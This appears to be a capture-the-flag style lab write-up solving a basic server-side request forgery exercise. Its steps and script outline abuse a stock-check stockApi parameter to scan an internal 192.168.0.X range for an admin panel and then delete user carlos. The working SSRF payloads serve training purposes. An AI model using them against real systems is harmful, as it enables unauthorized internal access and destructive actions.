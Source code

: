### Lab: Basic SSRF against another back-end system

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos.

_____

Analysis and Exploit:

1. Intercept the stock check request and send to **[BURP-REPEATER]**
    - POST **/product/stock**
    - stockApi : http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1
2. Change the _stockApi_ value and use **[BURP-INTRUDER]** to find the admin interface (IP in the range 192.168.0.0/24)
    - stockApi : http://192.168.0.X:8080/admin
3. Once found the IP address (response with code 200), reshape stockApi param and delete the user carlos
    - stockApi: http://192.168.0.X:8080/admin/delete?username=carlos


_____

Script:

1. Scan the local subnet and stop when receive code 200 | POST **/product/stock** | params: stockApi
    - stockApi: http://192.168.0.X:8080/admin
    - for loop from 2 to 255
        - break when response.status code == 200
2. Delete user carlos | POST **/product/stock** | params: stockApi
    - stockApi: http://192.168.0.X:8080/admin/delete?username=carlos
    - if response.status code != 302, error
